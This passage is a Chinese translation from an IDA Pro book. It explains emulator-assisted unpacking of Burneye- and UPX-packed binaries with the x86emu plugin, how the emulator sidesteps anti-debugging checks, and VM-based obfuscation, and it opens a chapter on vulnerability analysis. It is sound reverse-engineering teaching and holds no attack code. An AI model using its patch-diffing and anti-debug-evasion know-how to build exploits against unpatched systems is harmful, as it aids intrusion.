使用基于脚本的方法的缺点包括脚本相当脆弱。如果脱混淆算法因为脱混淆工具的升级或通过提供给混淆工具的替代命令行设置而发生变化，那么之前对该工具有效的脚本很可能需要相应地进行修改。例如，可以开发一个通用的解包脚本，用于与使用 UPX 打包的二进制文件一起使用，^([181]) 但这样的脚本需要随着 UPX 的演变而不断调整。

最后，脚本脱混淆的缺点在于缺乏一个适用于所有脱混淆情况的解决方案。没有一种万能的宏脚本能够脱混淆所有二进制文件。从某种意义上说，脚本脱混淆与基于签名的入侵检测和防病毒系统存在许多相同的不足。对于每种新的打包器类型，都需要开发一个新的脚本，并且现有打包器的细微变化很可能会破坏现有的脚本。

## 面向模拟的脱混淆

在创建脚本以执行脱混淆任务时，遇到的一个反复出现的问题是需要模拟 CPU 的指令集，以便脚本的行为与正在脱混淆的程序相同。如果我们手头有一个实际的指令模拟器，那么可能可以将这些脚本中的一些或全部工作转移到模拟器上，从而大大减少脱混淆 IDA 数据库所需的时间。模拟器可以填补脚本和调试器之间的空白，并且具有比脚本更高效、比调试器更灵活的优势。例如，使用模拟器，可以在 x86 平台上模拟 MIPS 二进制文件，或者在 Windows 平台上模拟 Linux ELF 二进制文件的指令。

模拟器的复杂程度各不相同。最基本的情况下，模拟器需要一个指令字节流以及足够的内存来分配给堆栈操作和 CPU 寄存器。更复杂的模拟器可能提供对模拟硬件设备和操作系统服务的访问。

IDA 不提供原生的模拟器功能^([182]), 但其插件架构足够复杂，允许创建模拟器类型的插件。此类模拟器的一种可能的实现是将 IDA 数据库视为虚拟内存，该内存恰好包含我们希望模拟的映射二进制文件（由加载模块提供）。对模拟器插件的要求仅限于提供一小部分内存来跟踪所有 CPU 寄存器的状态，以及一些实现堆栈的方法。一种实现堆栈的方法是在数据库中创建一个新的段，将其映射到适合堆栈的位置。模拟器通过从由模拟器的指令指针当前值指定的数据库位置读取字节，根据模拟 CPU 的指令集规范解码检索到的值，并更新由解码指令影响的任何内存值来运行。可能的更新可能包括修改模拟寄存器值、将值存储到模拟堆栈内存空间中，或者根据解码指令生成的内存地址，将修改后的值修补到 IDA 数据库中的数据或代码部分。模拟器的控制可能与调试器的控制类似，即可以逐步执行指令、检查内存、修改寄存器，并设置断点。程序内存空间内的内存内容将由 IDA 的反汇编和十六进制视图提供，而模拟器则需要生成自己的 CPU 寄存器显示。

使用这样的模拟器，可以通过在程序入口点启动模拟并逐步执行构成程序去混淆阶段的指令来去混淆一个混淆程序。因为模拟器使用数据库作为其支持内存，所以所有自我修改都会立即反映为数据库中的变化。当去混淆例程完成时，数据库已经转换成程序的正确去混淆版本，就像程序在调试器控制下运行一样。模拟器相对于调试器的直接优势是，潜在的恶意代码永远不会实际由模拟器执行，而调试器辅助的去混淆必须允许至少部分恶意程序执行，以便获得程序的去混淆版本。

ida-x86emu（x86emu）插件是一个旨在提供 x86 指令集模拟的模拟器插件示例。该插件是开源的，并支持从 4.9 版本开始的 IDA SDK 所有版本。x86emu 分发中包含了为 IDA 所有版本编译的插件的二进制版本。该插件旨在与 IDA 的 Windows 图形界面版本或 Qt 版本一起使用，并包括构建脚本，允许使用 MinGW（g++/make）或 Microsoft（Visual Studio 2008）工具构建插件。该插件的 Qt 版本也与 IDA 的 Linux 和 OS X 版本兼容。除了适合您 IDA 版本的 SDK 之外，插件没有其他依赖项。通过将编译好的插件二进制文件（*x86emu.plw/x86emu_qt.plw*）复制到 *<IDADIR>/plugins* 来安装插件。

不需要插件配置，默认情况下使用 alt-F8 键序列激活模拟器。插件仅适用于使用 x86 处理器的二进制文件，并且可以与任何文件类型的二进制文件一起使用，例如 PE、ELF 和 Mach-O。可以使用第十七章中讨论的工具（Visual Studio 或 MinGW 的 gcc 和 make）从源代码构建插件。

| **名称** | ida-x86emu |
| --- | --- |
| **作者** | Chris Eagle |
| **分发** | SDK v6.1 的源代码以及包括 IDA Freeware 在内的 IDA 所有版本的二进制文件。源代码与 SDK 版本 4.9 兼容。 |
| **价格** | 免费 |
| **描述** | IDA 的嵌入式 x86 指令模拟器 |
| **信息** | [`www.idabook.com/ida-x86emu`](http://www.idabook.com/ida-x86emu) |

### x86emu 初始化

当激活 x86emu 插件时，将显示如图 21-4 所示的插件控制对话框。图 21-4 中的基本显示显示寄存器值，并提供用于执行简单模拟任务的按钮控件，例如单步模拟或修改数据值。



图 21-4. x86emu 模拟器控制对话框

在首次激活时，插件执行一系列附加操作。对于所有文件类型，模拟器创建名为 `.stack` 和 `.heap` 的新数据库段，以便为模拟程序操作提供运行时内存支持。在特定二进制文件中首次激活插件时，当前光标位置用于初始化指令指针（`EIP`）。对于 Windows PE 二进制文件，插件执行以下附加任务：

1.  创建一个名为 `.headers` 的附加程序段，重新读取输入的二进制文件，然后将 MS-DOS 和 PE 标头字节加载到数据库中。

1.  分配内存以模拟线程环境块（TEB）和进程环境块（PEB）。这些结构通过合理的值进行填充，试图让被模拟的程序相信它正在实际 Windows 环境中运行。

1.  为 x86 段寄存器分配合理的值，并配置一个假的中断描述符表，以提供最小异常处理能力。

1.  尝试定位 PE 文件导入目录中引用的所有 DLL。对于找到的每个此类 DLL，模拟器在数据库中创建额外的段，并加载 DLL 的头部和导出目录。然后，二进制文件的导入表被填充从加载的 DLL 信息中派生的函数地址。请注意，不会将任何导入 DLL 的代码加载到数据库中。

每次数据库保存或关闭时，插件当前状态（寄存器值）都会保存在一个 netnode 中。此外，还会保存如栈和堆值等附加内存状态，因为这些值存储在数据库中的专用段中。在后续激活时，模拟器状态从现有的 netnode 数据中恢复。

### 基本 x86emu 操作

模拟器控制对话框旨在提供类似于非常基本调试器的功能。可以通过在所需寄存器的编辑框中输入新值来更改 CPU 寄存器的内容。

“单步”按钮用于模拟单个指令。通过从由 EIP 寄存器指定的数据库位置读取一个或多个字节，并执行由指令字节指定的任何操作来模拟单个指令。需要时，会更新寄存器显示值以反映当前指令模拟引起的变化。每次单击“单步”按钮时，模拟器都会确保由 EIP 指定的地址处的字节显示为代码（而不是数据）。此功能有助于防止指令流中可能发生的任何不同步尝试。此外，模拟器将反汇编显示窗口跳转到由 EIP 指定的位置，以便显示与每个模拟指令一起跟踪。

可以使用“运行到光标”按钮一次性模拟一系列指令。模拟从当前 EIP 位置继续，直到达到断点或 EIP 等于当前光标位置才停止。模拟器识别通过 IDA 调试器接口设置的断点（在所需地址上右键单击并选择**添加断点**）或通过模拟器自己的断点接口，模拟 ▸ 设置断点设置的断点。

x86EMU 断点

模拟器不使用硬件调试寄存器或软件中断，如`int 3`指令。相反，模拟器维护一个内部断点列表，在模拟每条指令之前将模拟的指令指针与该列表进行比较。虽然这看起来可能效率不高，但它并不比一般模拟效率低，并且它提供了优势，即模拟器的断点对被模拟的程序来说是不可检测和不可更改的。

一旦选择了“运行到光标”选项，模拟器不会为每条取出的指令重新格式化反汇编；相反，它只格式化执行的第一条和最后一条指令。对于长的指令序列，在每条指令上重新格式化反汇编的开销会导致模拟器性能缓慢到无法忍受。你应该非常小心地使用“运行到光标”命令，因为只有在 EIP 达到光标位置时，才能重新获得模拟器（和 IDA）的控制权。如果由于任何原因，执行从未遇到断点或未能达到光标位置，你可能需要强制终止 IDA，这可能会导致丢失有价值的工作。

跳过按钮用于在不模拟该指令的情况下，精确地前进一个指令。跳过命令的一个潜在用途是跳过条件跳转，以便无论任何条件标志的状态如何，都能到达特定的代码块。跳过命令对于跳过调用不可用于模拟的导入库函数也是很有用的。如果你选择跳过函数调用，请确保更新数据库以反映函数可能做出的任何更改。此类更改的例子包括修改 EAX 的值以反映所需的函数返回值或填充传递给函数的地址的缓冲区。此外，如果跳过的函数使用`stdcall`调用约定，你还应小心手动调整 ESP，以符合跳过的函数在返回时从堆栈中清除的字节数。

“跳转到光标”按钮会将 EIP 更新为当前光标位置的地址。此功能可用于跳过整个代码段或当 CPU 标志的状态可能不会导致跳转时，跟随条件跳转。请注意，在函数内跳转可能会影响堆栈布局（例如，如果你跳过了 push 或堆栈指针调整），从而导致意外的行为。请注意，模拟器开始于程序的入口点并不一定是其意图。完全有可能使用模拟器来模拟二进制中的一个单独的函数，以便研究该函数的行为。这是包含“跳转到光标”按钮的动机之一，以便在二进制文件内轻松重定向你的模拟工作。

“运行”按钮的功能类似于“运行到光标处”按钮；然而，它更危险，因为执行会继续，直到遇到断点。如果您选择使用此命令，请务必确保您的其中一个断点将被达到。

“段”按钮提供访问 x86 段寄存器和段基地址的配置。图 21-5 显示了用于更改段相关值的对话框。



图 21-5. x86emu 段寄存器配置

虽然模拟器的地址计算遵循提供的基值，但模拟器目前尚未提供对 x86 全局描述符表（GDT）的完整仿真。

“设置内存”按钮提供访问基本内存修改对话框，如图图 21-6 所示。



图 21-6. x86emu 内存修改对话框

此对话框本质上是一些 SDK `Patch`*`XXX`*函数的包装器。通过提供的单选按钮选择要插入数据库的数据类型，而实际数据则输入到提供的编辑控件中。如果选择“从文件加载”单选按钮，用户将看到一个标准的文件打开对话框，用于选择一个文件，其内容将从指定的地址开始传输到数据库中。

“推数据”按钮用于将数据值放置在仿真程序堆栈的顶部。如图图 21-7 所示的对话框可用于指定一个或多个将被推送到堆栈上的数据项。


图 21-7. x86emu 堆数据对话框

模拟器目前仅接受数值数据。提供的值以 4 字节量推送到仿真堆栈中，顺序从右到左，就像它们是函数调用的参数一样。根据推送到堆栈上的值的数量调整堆栈指针。此对话框的预期用途是在直接跳转到要仿真的函数之前配置函数参数。这允许在不要求用户找到函数的实际执行路径的情况下仿真函数。

### 模拟器辅助去混淆

到目前为止，我们已准备好讨论 x86emu 作为去混淆工具的使用。我们首先回到 Burneye 示例，为该示例我们开发了一个完整的 IDC 脚本。假设我们对 Burn-eye 解码算法没有任何先验知识，去混淆过程将如下进行。

1.  打开 Burneye 受保护的二进制文件。光标应自动定位在`start`入口点。激活模拟器（alt-F8）。显示了模拟器的结果状态。

1.  开始执行模拟器，密切注意即将要模拟的指令。经过六次步骤后，模拟器到达函数`sub_5371048`（见示例 21-3）。

1.  这个函数看起来结构相当合理。我们可以选择让模拟器运行一段时间，以获得更好的执行流程感，或者我们可以选择研究这个函数一段时间，并确定是否可以在函数的`return`语句处放置光标并点击运行到光标处。选择后者，我们将光标定位在地址`05371081h`处并点击**运行到光标**。

1.  在这一点上，去混淆已经完成。再执行两次模拟器，执行`return`语句，返回新去混淆的代码，并导致 IDA 重新格式化去混淆的字节为指令。

这里显示了去混淆后的代码：

```
LOAD:05371082 loc_5371082:                ; CODE XREF: start+E↑j
  LOAD:05371082                 call    sub_5371048
  LOAD:05371082 ; --------------------------------------------------------------
  LOAD:05371087                 db    0
  LOAD:05371088                 db    0
  LOAD:05371089                 db    0
  LOAD:0537108A                 db    0
  LOAD:0537108B                 db    0
  LOAD:0537108C                 db    0
  LOAD:0537108D                 db    0
  LOAD:0537108E                 db    0
  LOAD:0537108F                 db    0
  LOAD:05371090 ; --------------------------------------------------------------
  LOAD:05371090
  LOAD:05371090 loc_5371090:                ; DATA XREF: LOAD:off_5371008↑o
 LOAD:05371090                 pushf
  LOAD:05371091                 pop     ebx
  LOAD:05371092                 mov     esi, esp
  LOAD:05371094                 call    sub_5371117
  LOAD:05371099                 mov     ebp, edx
  LOAD:0537109B                 cmp     ecx, 20h
  LOAD:0537109E                 jl      loc_53710AB
  LOAD:053710A4                 xor     eax, eax
  LOAD:053710A6                 jmp     loc_53710B5
```

将此列表与示例 21-2 进行比较，很明显，由于去混淆过程，指令已经发生了变化。在初始去混淆之后，程序执行从`pushf`指令在`loc_5371090`处恢复。

模拟器辅助去混淆显然比之前遵循的基于脚本的去混淆过程要容易得多。开发模拟器方法所花费的时间以高度灵活的去混淆替代方案回报，而开发针对 Burneye 的特定脚本所花费的时间则以一个非常专业的脚本回报，这种脚本在其他去混淆场景中几乎无用。

注意，虽然前一个示例中的 Burneye 受保护的二进制文件是 Linux ELF 二进制文件，但 x86emu 在模拟二进制文件中的指令时没有问题，因为它们都是 x86 指令，无论它们是从哪个操作系统和文件类型中提取的。x86emu 可以像在 Windows PE 二进制文件上一样轻松使用，例如本章前面讨论的 UPX 示例。由于当今绝大多数混淆恶意软件都是针对 Windows 平台的，x86emu 包含许多针对 Windows PE 二进制文件的具体功能（如前所述）。

使用模拟器解压 UPX 二进制文件非常简单。应将模拟器启动，并将光标定位在程序入口点（`start`）。接下来，可以将光标移动到 UPX 导入表的第一条指令，重建循环（地址`0040886Ch`在示例 21-1)，然后可以使用“运行到光标”命令允许模拟器运行。此时，二进制文件已被解包，可以使用字符串窗口查看 UPX 将用于构建程序导入表的所有解包库和函数名称。如果模拟器逐步执行示例 21-1 的代码，最终会遇到以下函数调用：

```
UPX1:00408882                 call    dword ptr [esi+808Ch]
```

这类指令模拟可能很危险，因为指令可能指向的位置并不立即明显（意味着`call`指令的目标地址不明显）。一般来说，函数调用可以指向两个地方：程序代码（`.text`）段内的函数或程序使用的共享库内的函数。每当遇到`call`指令时，模拟器都会确定目标地址是否位于正在分析文件的虚拟地址空间内，或者目标地址是否与二进制文件加载的某个库导出的函数相关。回想一下，对于 PE 二进制文件，模拟器会加载正在分析的二进制文件加载的所有库的导出字典。当模拟器确定`call`指令的目标地址超出了二进制文件的边界时，模拟器会扫描已加载到数据库中的导出表，以确定正在调用的库函数。对于 Windows PE 文件，模拟器包含模拟实现表 21-1 中列出的函数。

当模拟器确定这些函数之一已被调用时，它会从程序堆栈中读取任何参数，并执行实际函数在程序实际运行时本应执行的动作，或者执行一些最小动作并生成一个看起来正确的返回值，从被模拟程序的角度看。在`stdcall`函数的情况下，模拟器在完成模拟函数之前会正确地移除任何堆栈参数。

表 21-1. x86emu 模拟的函数

| `CheckRemoteDebuggerPresent` | `GetTickCount` | `LocalFree` | `VirtualAlloc` |
| --- | --- | --- | --- |
| `CreateThread` | `GetVersion` | `NtQuerySystemInformation` | `VirtualFree` |
| `GetCurrentThreadId` | `HeapAlloc` | `NtQueryInformationProcess` | `calloc` |
| `GetCurrentProcess` | `HeapCreate` | `NtSetInformationThread` | `free` |
| `GetCurrentProcessId` | `HeapDestroy` | `RtlAllocateHeap` | `lstrcat` |
| `GetModuleHandleA` | `HeapFree` | `TlsAlloc` | `lstrcpy` |
| `GetProcAddress` | `IsDebuggerPresent` | `TlsFree` | `lstrlen` |
| `GetProcessHeap` | `LoadLibraryA` | `TlsGetValue` | `malloc` |
| `GetThreadContext` | `LocalAlloc` | `TlsSetValue` | `realloc` |

对于与堆相关的函数的仿真行为，会导致仿真器操作其内部堆实现（由`.heap`部分支持）并返回一个适合被仿真程序写入数据的地址。例如，`HeapAlloc`仿真版本返回的值是一个适合被仿真程序写入数据的地址。当调用`VirtualAlloc`仿真版本时，在数据库中创建一个新的部分来表示新映射的虚拟地址空间。`IsDebuggerPresent`仿真版本始终返回 false。当仿真`LoadLibraryA`时，仿真器通过检查提供给`LoadLibraryA`的堆栈参数来提取正在加载的库的名称。然后仿真器尝试在本地系统上打开该命名的库，以便将该库的导出表加载到数据库中，并返回一个适当的库句柄^([183])给调用者。当拦截`GetProcAddress`调用时，仿真器检查堆栈上的参数以确定正在引用哪个共享库；然后仿真器解析库的导出表以计算请求的函数的正确内存地址，然后将该地址返回给调用者。`LoadLibraryA`和`GetProcAddress`的调用会在 IDA 输出窗口中记录。

当调用 x86emu 没有内部仿真的函数时，会显示一个类似于图 21-8 所示的对话框。

知道被调用的函数的名称后，仿真器查询 IDA 的类型库信息以获取函数所需的参数数量和类型。然后仿真器深入程序堆栈以显示传递给函数的所有参数，包括参数的类型和参数的形式参数名称。只有当从 IDA 获取类型信息时，才会显示参数类型和名称。对话框还允许用户指定返回值，以及指定函数使用的调用约定（此信息可能来自 IDA）。当选择`stdcall`调用约定时，用户应指明在调用完成后应从堆栈中移除多少个参数（而不是字节数）。为了使仿真器在仿真函数调用之间保持执行堆栈的完整性，需要此信息。



图 21-8. x86emu 库函数对话框

返回到 UPX 解混淆示例，并允许模拟器完成导入表重建循环，我们会在 IDA 的输出窗口中找到以下输出：

```
x86emu: LoadLibrary called: KERNEL32.DLL (7C800000)
x86emu: GetProcAddress called: ExitProcess (0x7C81CDDA)
x86emu: GetProcAddress called: ExitThread (0x7C80C058)
x86emu: GetProcAddress called: GetCurrentProcess (0x7C80DDF5)
x86emu: GetProcAddress called: GetCurrentThread (0x7C8098EB)
x86emu: GetProcAddress called: GetFileSize (0x7C810A77)
x86emu: GetProcAddress called: GetModuleHandleA (0x7C80B6A1)
x86emu: GetProcAddress called: CloseHandle (0x7C809B47)
```

此输出提供了被混淆的二进制文件加载的库以及混淆程序解析这些库中函数的记录.^([184]) 当以这种方式查找函数地址时，它们通常会被保存在一个数组中（这个数组是程序的导入表），以供以后使用。

解混淆程序的一个基本问题是它们缺少通常在未混淆的二进制文件中存在的符号表信息。当一个二进制文件的导入表完整时，IDA 的 PE 加载器会根据将在运行时包含的函数的名称来命名导入表中的每个条目。当遇到混淆的二进制文件时，将函数名称应用于存储函数地址的每个位置是有用的。在 UPX 的情况下，示例 21-1 中的以下行显示了函数地址是如何在每次通过函数查找循环时保存到内存中的：

```
UPX1:00408897        call    dword ptr [esi+8090h] ; GetProcAddress
  UPX1:0040889D        or      eax, eax
  UPX1:0040889F        jz      short loc_4088A8
 UPX1:004088A1        mov     [ebx], eax            ; Save to import table
  UPX1:004088A3        add     ebx, 4
```

地址为`004088A1h`的指令  负责将函数地址存储到导入表中，当它被重建时。只要可以识别出这样的指令，x86emu 就提供了一个自动命名每个导入表条目的功能。模拟器将此类指令称为*导入地址保存点*，你可以使用“模拟”▸“Windows”▸“设置导入地址保存点”菜单选项将地址指定为这样的点。为了使此功能正常工作，必须在执行指令之前进行此指定。指定之后，每次模拟此指令时，模拟器都会执行查找以确定正在写入的数据引用了哪个函数，然后使用导入函数的名称命名正在写入的地址。在 UPX 示例中，不努力清理导入表将产生以下（部分）导入表：

```
UPX0:00406270                 dd 7C81CDDAh
UPX0:00406274                 dd 7C80C058h
UPX0:00406278                 dd 7C80DDF5h
UPX0:0040627C                 dd 7C8098EBh
```

然而，当指定导入地址保存点时执行的自动命名会产生以下自动生成的（部分）导入表。

```
UPX0:00406270 ; void __stdcall ExitProcess(UINT uExitCode)
UPX0:00406270 ExitProcess     dd 7C81CDDAh        ; DATA XREF: j_ExitProcess↑r
UPX0:00406274 ; void __stdcall ExitThread(DWORD dwExitCode)
UPX0:00406274 ExitThread      dd 7C80C058h        ; DATA XREF: j_ExitThread↑r
UPX0:00406278 ; HANDLE __stdcall GetCurrentProcess()
UPX0:00406278 GetCurrentProcess dd 7C80DDF5h      ; DATA XREF: j_GetCurrentProcess↑r
UPX0:0040627C ; HANDLE __stdcall GetCurrentThread()
UPX0:0040627C GetCurrentThread dd 7C8098EBh       ; DATA XREF: j_GetCurrentThread↑r
```

以这种方式重建导入表后，IDA 能够使用从其类型库中提取的参数类型信息正确注释对库函数的调用，从而显著提高了反汇编的整体质量。

### 额外的 x86emu 功能

模拟器包含一些你可能觉得有用的附加功能。以下列表详细说明了这些功能的一些能力。

| **文件** ▸ **导出** 此菜单选项允许用户指定要导出到文件中的数据库地址范围。默认情况下，范围从当前光标位置扩展到数据库中存在的最大虚拟地址。 |
| --- |
| **文件** ▸ **导出嵌入式 PE** 许多恶意软件包含嵌入式可执行文件，它们会在目标系统上安装。此菜单选项在当前光标位置查找有效的 PE 文件，解析文件的头部以确定文件大小，然后从数据库中提取字节到一个保存的文件中。 |
| **查看** ▸ **枚举堆** 此菜单选项会导致仿真器将分配的堆块列表导出到输出窗口，如下所示： |

```
x86emu: Heap Status ---
   0x5378000-0x53781ff (0x200 bytes)
   0x5378204-0x5378217 (0x14 bytes)
   0x537821c-0x5378347 (0x12c bytes)
```

| **仿真** ▸ **切换线程** 当在 Windows PE 文件中进行仿真时，x86emu 会拦截对 `CreateThread` 函数的调用，并为管理新线程分配额外的资源。因为仿真器没有自己的调度器，所以如果您想在多个线程之间切换，必须使用此菜单选项。 |
| --- |
| **函数** ▸ **分配堆块** 此菜单选项允许用户在仿真堆中预留一块内存。用户会被询问要预留的块的大小。新预留的块的地址会报告给用户。当仿真过程中需要临时空间时，此功能非常有用。 |
| **函数** ▸ **分配堆栈块** 此菜单选项允许用户在仿真堆栈中预留一块内存。其行为类似于函数 ▸ 分配堆栈块。 |

### x86emu 和反调试

虽然仿真器并非旨在用作调试器，但它必须为被仿真的程序模拟运行时环境。为了成功仿真许多混淆的二进制文件，仿真器必须避免成为活跃的反调试技术的受害者。仿真器的几个功能是考虑到反调试而设计的。

一种反调试技术通过使用 x86 `rdtsc`指令来测量时间间隔，以确保程序没有被调试器暂停。`rdtsc`指令用于读取内部 *时间戳计数器（TSC）* 的值，并返回一个表示自处理器上次重置以来时钟滴答数的 64 位值。TSC 增加的速率在不同类型的 CPU 之间有所不同，但大致为每个内部 CPU 时钟周期一次。调试器无法停止 TSC 的增加，因此可以通过测量两次连续调用`rdtsc`之间的 TSC 差异来确定程序是否被停止了过长时间。x86emu 维护一个内部 TSC，它在每次仿真指令时都会增加。因为仿真 TSC 仅受仿真指令的影响，所以使用`rdtsc`之间的实际时间间隔多少并不重要。在这种情况下，观察到的值之间的差异将始终大致与`rdtsc`调用之间仿真的指令数成比例，并且应该足够小，以使仿真程序相信没有附加调试器。

故意使用异常是另一种必须由仿真器处理的反调试技术。仿真器包含非常基本的模拟 Windows 结构化异常处理（SEH）过程行为的能力。当仿真程序是 Windows PE 二进制文件时，仿真器通过构造 SEH `CONTEXT`结构、通过`fs:[0]`遍历异常处理程序列表来定位当前异常处理程序，并将控制权转移到已安装的异常处理程序来响应异常或软件中断。当异常处理程序返回时，仿真器从`CONTEXT`结构（可能已在异常处理程序中操作）恢复 CPU 状态。

最后，x86emu 仿真了 x86 硬件调试寄存器的行为，但并不使用这些寄存器在仿真程序中设置断点。如前所述，仿真器在执行每条指令之前维护一个用户指定的断点列表，并对其进行扫描。在 Windows 异常处理程序中对调试寄存器的任何操作都不会干扰仿真器的操作。

* * *

^([180]) EAX 寄存器的低 8 位也被称为 AL 寄存器。

^([181]) 请参阅 [`www.idabook.com/examples/chapter21/`](http://www.idabook.com/examples/chapter21/) 以获取此类示例之一。

^([182]) IDA 附带了一个插件，可以通过 IDA 的调试接口与开源 Bochs 仿真器进行接口。请参阅第二十四章至第二十六章以获取更多信息。第二十四章 第二十六章。

^([183]) Windows 库句柄在 Windows 进程中唯一标识一个库。一个 *库句柄* 实际上是库加载到内存中的基本地址。

^([184]) 一旦程序使用 `GetProcAddress` 找到函数的地址，程序就可以在任何时候使用返回的地址调用该函数。以这种方式查找函数地址消除了在构建时显式链接到函数的需求，并减少了静态分析工具（如 dumpbin）可以提取的信息量。

# 基于虚拟机的混淆

在本章前面提到（在 指令码混淆 中 指令码混淆），一些最复杂的混淆器使用自定义字节码和相关的虚拟机重新实现了它们接收到的程序。当面对以这种方式混淆的二进制文件时，你可能会看到的唯一原生代码就是虚拟机。假设你认识到你正在查看一个软件虚拟机，全面理解所有这些代码通常无法揭示混淆程序的真正目的。这是因为程序的行为仍然隐藏在虚拟机必须解释的嵌入式字节码中。要完全理解程序，你必须首先找到所有嵌入式字节码，其次，逆向工程虚拟机的指令集，这样你才能正确解释字节码的意义。

通过比较，想象一下你对 Java 一无所知，有人给你一个 Java 虚拟机和包含编译后字节码的 *.class* 文件，并问你它们做了什么。在没有任何文档的情况下，你对字节码文件的理解几乎为零，你需要完全逆向虚拟机来学习 *.class* 文件的结构以及如何解释其内容。在理解了字节码机器语言之后，你就可以继续理解 *.class* 文件了。

VMProtect 是一个利用非常复杂的基于虚拟机的混淆技术的商业产品的例子。作为一个更偏向学术的练习，TheHyper 的 HyperUnpackMe2 挑战二进制文件是使用虚拟机进行混淆的一个相当直接的例子，主要挑战在于定位虚拟机嵌入的字节码程序并确定每个字节码的含义。在他的关于 OpenRCE 描述 HyperUnpackMe2 的文章中，Rolf Rolles 的方法是完全理解虚拟机，以便构建一个能够反汇编其字节码的处理器模块。这个处理器模块然后使他能够反汇编挑战二进制文件中嵌入的字节码。这种方法的一个小限制是，它允许你查看 HyperUnpackme2 中的 x86 代码（使用 IDA 的 x86 模块）或虚拟机代码（使用 Rolle 的处理器模块），但不能同时查看两者。这迫使你创建两个不同的数据库，每个数据库使用不同的处理器模块。另一种方法利用了通过使用插件来定制现有处理器模块的能力（参见定制现有处理器），有效地允许你扩展指令集以包括嵌入虚拟机的所有指令。将这种方法应用于 HyperUnpackMe2 允许我们在单个数据库中一起查看 x86 代码和虚拟机代码，如下面的列表所示：

```
TheHyper:01013B2F            h_pop.l       R9
TheHyper:01013B32              h_pop.l       R7
TheHyper:01013B35              h_pop.l       R5
TheHyper:01013B38              h_mov.l       SP, R2
TheHyper:01013B3C              h_sub.l       SP, 0Ch
TheHyper:01013B44              h_pop.l       R2
TheHyper:01013B47              h_pop.l       R1
TheHyper:01013B4A              h_retn        0Ch
TheHyper:01013B4A sub_1013919  endp
TheHyper:01013B4A
TheHyper:01013B4A ; ----------------------------------------------------------
TheHyper:01013B4D              dd 24242424h
TheHyper:01013B51              dd 0A9A4285Dh           ; TAG VALUE
TheHyper:01013B55
TheHyper:01013B55 ; ============ S U B R O U T I N E =========================
TheHyper:01013B55
TheHyper:01013B55 ; Attributes: bp-based frame
TheHyper:01013B55
TheHyper:01013B55 sub_1013B55  proc near      ; DATA XREF: TheHyper:0103AF7A?o
TheHyper:01013B55
TheHyper:01013B55 var_8        = dword ptr −8
TheHyper:01013B55 var_4        = dword ptr −4
TheHyper:01013B55 arg_0        = dword ptr  8
TheHyper:01013B55 arg_4        = dword ptr  0Ch
TheHyper:01013B55
TheHyper:01013B55            push    ebp
TheHyper:01013B56              mov     ebp, esp
TheHyper:01013B58              sub     esp, 8
TheHyper:01013B5B              mov     eax, [ebp+arg_0]
TheHyper:01013B5E              mov     [esp+8+var_8], eax
TheHyper:01013B61              mov     [esp+8+var_4], 0
TheHyper:01013B69              push    4
TheHyper:01013B6B              push    1000h
```

在这里，从  开始的代码被反汇编为 HyperUnpackMe2 字节码，而随后的代码在  处显示为 x86 代码。

Hex-Rays 预测到了同时显示原生代码和字节码的能力，在 IDA 5.7 中引入了自定义数据类型和格式。当 IDA 的内置格式选项无法满足您的需求时，自定义数据格式非常有用。通过指定（使用脚本或插件）格式和执行格式的函数的菜单名称，可以注册新的格式功能。一旦为数据项选择了一个自定义格式，IDA 就会在需要显示该数据项时调用您的格式化函数。当 IDA 的内置数据类型不足以表示您在特定二进制文件中遇到的数据时，自定义数据类型非常有用。与自定义格式一样，自定义数据类型也是通过脚本或插件注册的。Hex-Rays 的示例注册了一个自定义数据类型来指定虚拟机字节码，并使用自定义数据格式将每个字节码显示为一条指令。这种方法的一个缺点是，它要求您找到每个虚拟机指令并显式更改其数据类型。使用自定义处理器扩展，将单个值指定为虚拟机指令会自动导致发现每个可到达的指令，因为 IDA 驱动反汇编过程，处理器扩展通过其自定义 _emu 实现发现新的可到达指令。

* * *

^([185]) 请参阅“使用 IDA 处理器模块击败 HyperUnpackMe2”文章，链接：[`www.openrce.org/articles/full_view/28`](http://www.openrce.org/articles/full_view/28).

# 摘要

在当今的恶意软件中，混淆程序是常态而非例外。任何试图研究恶意软件样本内部操作的行为几乎肯定需要某种类型的去混淆。无论您是采用调试器辅助的动态去混淆方法，还是更倾向于不运行可能有害的代码，而是使用脚本或仿真来去混淆您的二进制文件，最终目标都是生成一个去混淆的二进制文件，以便可以完全反汇编并进行适当的分析。在大多数情况下，这种最终分析将使用像 IDA 这样的工具来完成。鉴于这个最终目标（使用 IDA 进行分析），从开始到结束尝试使用 IDA 是有意义的。本章中介绍的技术旨在证明 IDA 能够做到远不止生成反汇编列表。在第二十五章（Chapter 25）中，我们将重新审视混淆代码，并探讨如何利用 IDA 的调试功能作为去混淆工具。

# 第二十二章. 漏洞分析


在我们深入本章内容之前，我们需要明确一点：IDA 不是一个漏洞发现工具。我们就是这样说的；多么令人欣慰！IDA 在某些人的心目中似乎获得了神秘的品质。人们常常有一种印象，认为只需用 IDA 打开一个二进制文件，就能揭示宇宙的所有秘密，恶意软件的行为将被 IDA 自动生成的注释完全解释，漏洞将以红色突出显示，如果你在某个神秘的复活节彩蛋激活序列中单脚站立并右键点击，IDA 将自动生成漏洞利用代码。

虽然 IDA 确实是一个非常强大的工具，但没有一个聪明的用户坐在键盘前（也许还有一套方便的脚本和插件），它实际上只是一个反汇编器/调试器。作为一个静态分析工具，它只能帮助你尝试定位软件漏洞。最终，是否使 IDA 使你的漏洞搜索更容易，取决于你的技能以及你如何应用它们。根据我们的经验，IDA 并不是定位新漏洞的最佳工具^([186]), 但一旦发现漏洞，与调试器结合使用时，它就是可用的最佳工具之一，用于辅助开发漏洞利用。

在过去的几年里，IDA 在发现现有漏洞方面承担了新的角色。起初，在考虑了我们对这些漏洞的了解以及谁知道这些漏洞之后，搜索已知漏洞可能看起来有些不寻常。在闭源、仅二进制软件的世界里，供应商经常发布软件补丁，而不透露具体修复了什么以及为什么修复。通过在新补丁版本和旧未修补版本的同一种软件之间进行差异分析，可以隔离二进制中发生变化的区域。在假设这些更改是出于某种原因的情况下，这种差异分析技术实际上有助于突出以前易受攻击的代码序列。通过这样缩小搜索范围，任何具备相应技能的人都可以为未修补的系统开发漏洞利用程序。事实上，鉴于微软众所周知的“补丁星期二”发布更新周期，大量的安全研究人员准备每个月都坐下来做这件事。

考虑到关于这个主题有整本书，我们不可能在一本关于 IDA 的书中用一章来公正地处理漏洞分析。我们将假设读者熟悉一些关于软件漏洞的基本概念，例如缓冲区溢出，并讨论一些使用 IDA 搜索、分析和最终为这些漏洞开发漏洞利用程序的方法。

# 使用 IDA 发现新漏洞

